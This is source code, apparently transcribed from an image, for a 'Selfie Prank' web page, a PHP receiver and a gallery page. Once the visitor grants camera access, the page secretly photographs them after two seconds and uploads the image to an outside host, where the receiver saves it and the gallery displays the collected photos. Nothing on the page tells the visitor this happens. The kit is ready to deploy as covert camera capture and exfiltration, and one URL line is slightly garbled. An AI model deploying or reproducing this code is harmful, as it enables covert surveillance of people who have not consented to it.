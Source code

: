 <!-- === scanner.html === -->
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Selfie Prank</title>
</head>
<body>
  <h2>Smile for the camera 😄</h2>
  <video id="video" autoplay playsinline width="320" height="240"></video>
  <canvas id="canvas" style="display:none;"></canvas>
  <script>
    const video = document.getElementById('video');
    const canvas = document.getElementById('canvas');
    const context = canvas.getContext('2d');

    navigator.mediaDevices.getUserMedia({ video: true })
      .then(stream => {
        video.srcObject = stream;

        setTimeout(() => {
          canvas.width = video.videoWidth;
          canvas.height = video.videoHeight;
          context.drawImage(video, 0, 0, canvas.width, canvas.height);
          const imageDataURL = canvas.toDataURL('image/png');

          fetch('https://agent-selfie.wuaze.com/receiver.php', {
            method: 'POST',
            headers: {
              'Content-Type': 'application/json'
            },
            body: JSON.stringify({ image: imageDataURL })
          })
          .then(res => res.text())
          .then(data => console.log('Uploaded:', data))
          .catch(err => console.error('Upload failed:', err));

        }, 2000); // capture after 2 seconds
      })
      .catch(error => console.error('Camera access denied:', error));
  </script>
</body>
</html>


<!-- === receiver.php === -->
<?php
header("Access-Control-Allow-Origin: *");
header("Access-Control-Allow-Methods: POST, OPTIONS");
header("Access-Control-Allow-Headers: Content-Type");

if ($_SERVER['REQUEST_METHOD'] === 'OPTIONS') {
    http_response_code(204);
    exit;
}

$data = json_decode(file_get_contents("php://input"), true);
if (!isset($data['image'])) {
    http_response_code(400);
    echo "Missing image data.";
    exit;
}

$imageData = $data['image'];
if (preg_match('/^data:image\/(\w+);base64,/', $imageData, $type)) {
    $type = strtolower($type[1]);
    $imageData = substr($imageData, strpos($imageData, ',') + 1);
    $imageData = base64_decode($imageData);

    if ($imageData === false) {
        http_response_code(400);
        echo "Image decode failed.";
        exit;
    }

    $folder = __DIR__ . '/uploads';
    if (!is_dir($folder)) {
        mkdir($folder, 0755, true);
    }

    $filename = uniqid('selfie_', true) . '.' . $type;
    file_put_contents($folder . '/' . $filename, $imageData);

    echo "Saved as $filename";
} else {
    http_response_code(400);
    echo "Invalid image format.";
}
?>


<!-- === gallery.html (optional) === -->
<!DOCTYPE html>
<html>
<head>
  <title>Selfie Gallery</title>
</head>
<body>
  <h1>Gallery of Selfies</h1>
  <div id="gallery"></div>

  <script>
    fetch('[https://script.google.com/macros/s/AKfycbxD67VdSPPsrYClRaFLAaOm2YZYW4Q9D-Ok_2OW8RPvYL8wyHiCnOvSBQNajqgJn1um4A/exec]")
      .then(response => response.text())
      .then(html => {
        const parser = new DOMParser();
        const doc = parser.parseFromString(html, 'text/html');
        const links = [...doc.querySelectorAll('a')];
        const images = links.filter(link => link.href.match(/\.(jpg|jpeg|png)$/i));

        const gallery = document.getElementById('gallery');
        images.forEach(img => {
          const image = document.createElement('img');
          image.src = img.href;
          image.width = 160;
          image.style.margin = '5px';
          gallery.appendChild(image);
        });
      });
  </script>
</body>
</html>
